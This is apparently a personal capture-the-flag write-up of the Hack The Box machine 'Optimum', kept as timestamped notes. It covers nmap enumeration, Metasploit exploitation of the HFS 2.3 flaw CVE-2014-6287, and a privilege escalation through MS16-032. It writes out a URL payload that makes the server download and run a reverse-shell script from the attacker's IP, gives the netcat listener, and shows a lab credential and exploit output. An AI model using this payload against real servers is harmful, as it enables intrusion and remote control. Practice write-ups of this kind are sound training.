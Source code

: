```yaml
---
box: Optimum
date: 2025-09-14
category: Misc
difficulty: Easy
tags:
  - codeinjection
  - RCE
  - windows
start: 2025-09-14 13:40
finish: 2025-09-15 18:15
status: complete
---
```


# Box Overview – Box-2025-09-14-Optimum

##### Enumeration

- **Timestamp:** 2025-09-14 13:40
- **Action:** nmap to explore host
- **Commands:** `nmap -Av 10.129.196.11`
- **Notes:** See CLI snippet below:
``` PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- **Next Steps:** Clearly a file server. How do we exploit? --> Investigate

##### Finding exploits

- **Timestamp:** 2025-09-14 13:54
- **Action:** Searched databases for particular exploits.
- **Commands:** Google, `msfconsole`
- **Notes:** Found CVE-2014-6287 (specifically for Rejetto http File Server). Also found exploit in metasploit database.
- **Next Steps:** Figure out how to use msf properly here.

##### Exploit Use and User Own

- **Timestamp:** 2025-09-14 14:01
- **Action:** Use existing exploit to exploit web based file service Rejetto.
- **Commands:** `msfconsole`, `search CVE-2014-6287`, `use 0`, `set RHOST <IP>`, `set LHOST <my-ip>`, `run`, `cat user.txt`
- **Notes:** Easy user own and flag.
- **Next Steps:** Privesc to get password et al.

##### Enumeration 2 (1)

- **Timestamp:** 2025-09-14 14:05
- **Action:** Began randomly enumerating but decided because I'm a n00b to use something like hacktricks for a checklist.
- **Commands:** 
	- `getuid`,`uuid`,`sysinfo`, `ps`, `pwd`<->`getwd`,
- **Notes:** 
- Sysinfo dump:
```
Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows 
```
- Used `ps` instinctively, shows running processes.
	- Interesting, some guide shows we can migrate to new processes.
	- We migrate to `explorer.exe`

##### Enumerating 2 (2)

- **Timestamp:** 2025-09-14 15:18
- **Action:** Uploaded winPEAS for better enumeration.
- **Commands:** `upload winPEAS.ps1`,`load powershell` (through meterpreter), `powershell_shell`, `./winPEAS.ps1`
- **Notes:** Stuff
- **Next Steps:** Other Stuff

##### Backtracking

- **Timestamp:** 2025-09-14 15:59
- **Action:** Establishing a python shell, meterpeter seems to be fudging winPEAS execution. Also utilize direct RCE through url with classic `%00` inclusion -> metasploit did not explain this, although I'm familiar with this type of vulnerability.
- **Commands:** `http://10.129.196.11/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.14.217/rev.ps1%27).}`, `sudo python3 -m http.server 80`, `sudo rlwrap nc -lnvp 443`, `winPEAS.exe`
- **Notes:** Better reverse shell and visibility of actual exploit.
	- In the future, when looking at webhosted applications, use skills from CWES pathway in HTB academy.
	- Hacktricks, as always, was useful for certain winPEAS related info.
	- Shell established directly to kostas desktop
- **Next Steps:**
	- Enumerate with .exe for passwords, creds, CVEs.

##### Privesc Pathway

- **Timestamp:** 2025-09-14 16:20
- **Action:** Searched through winPEAS output, found interesting creds and potential CVE.
- **Commands:** 
	- `winPEAS.ps1`
- **Notes:** 
	- autologon credential for kostas: `kdeEjDowkS*`
- **Next Steps:** 
	- Multiple payloads researched.
	- Going to try ms16_032_secondary_logon_handle_privesc

##### Success

- **Timestamp:** 2025-09-14 18:55
- **Action:** Ran https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc/
- **Commands:** `mfconsole` with appropriate flags
- **Notes:** 
	- Managed to get root confirmed with `getuid`.
	- Had to change some options related to the shell (established over https)
```
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1372

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $iJkl = [Ntdll]::NtImpersonateThread($ux, $ux, [ref]$gpl4)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (gpl4:VariablePath) [], RuntimeException
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateToken" to type "System.IntPtr": "Cannot co
nvert null to type "System.IntPtr"."
At line:259 char:2
+     $iJkl = [Advapi32]::DuplicateToken($tPnUD, 2, [ref]$kWjZ)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

1Yu8GBJMw5b3UCht4sSqKHsCXk4S0eRL
[+] Executed on target machine.
[+] Deleted C:\Users\kostas\AppData\Local\Temp\okGqjwD.ps1
```
- Obtained root flag with simple `cat`
- Got some wonky shit with the actual reverse shell but hey, I did it.
	- Noticed in some walkthroughs post inspection that various exploits were used.
	- Typical attack path is basically exploiting system privesc after establishing a foothold.
